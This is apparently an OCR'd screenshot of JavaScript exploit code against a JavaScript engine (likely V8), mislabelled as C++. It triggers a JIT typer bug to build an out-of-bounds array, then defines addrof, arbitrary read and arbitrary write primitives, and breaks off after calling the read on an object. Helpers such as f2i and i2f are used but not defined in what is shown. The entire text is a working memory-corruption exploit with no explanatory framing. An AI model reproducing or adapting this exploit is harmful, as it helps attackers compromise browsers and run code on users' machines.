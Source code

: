 ```c++
     

         function f(a) {
            let x = -1; 
            if (a) x = 0xFFFFFFFF;
            let oob_smi = new Array(Math.sign(0 - Math.max(0, x, -1)));
            oob_smi.pop();
            let oob_double = [3.14, 3.14];
            let arr_addrof = [{}];
            let aar_double = [2.17, 2.17];
            let www_double = new Float64Array(0x20);
            return [oob_smi, oob_double, arr_addrof, aar_double, www_double];
        }
  //  gc();
console.log(11)
    for (var i = 0; i < 0x10000; ++i) {
        f(false);
    }
    let [oob_smi, oob_double, arr_addrof, aar_double, www_double] = f(true);
    console.log("[+] oob_smi.length = " + oob_smi.length);
    oob_smi[14] = 0x1234;
    console.log("[+] oob_double.length = " + oob_double.length);
    let primitive = {
        addrof: (obj) => {
            arr_addrof[0] = obj;
            return (oob_double[8].f2i() >> 32n) - 1n;
        },
        half_aar64: (addr) => {
            oob_double[15] = ((oob_double[15].f2i() & 0xffffffff00000000n)
                              | ((addr - 0x8n) | 1n)).i2f();
            return aar_double[0].f2i();
        },
        half_aaw64: (addr, value) => {
            oob_double[15] = ((oob_double[15].f2i() & 0xffffffff00000000n)
                              | ((addr - 0x8n) | 1n)).i2f();
            aar_double[0] = value.i2f(); // Writes `value` at `addr
        },
        full_aaw: (addr, values) => {
            let offset = -1;
            for (let i = 0; i < 0x100; i++) {
                if (oob_double[i].f2i() == 8n*0x20n
                    && oob_double[i+1].f2i() == 0x20n) {
                    offset = i+2;
                    break;
                }
            }
            if (offset == -1) {
                console.log("[-] Bad luck!");
                return;
            } else {
                console.log("[+] offset = " + offset);
            }
            oob_double[offset] = addr.i2f();
            for (let i = 0; i < values.length; i++) {
                console.log(i, www_double[i].f2i().hex(), values[i].f2i().hex());
                www_double[i] = values[i];
            }
        }
    };
    
    exp_addrof = primitive.addrof(exposedObject);
    console.log(exp_addrof.hex());    
    exp_r = primitive.half_aar64(exp_addrof)
```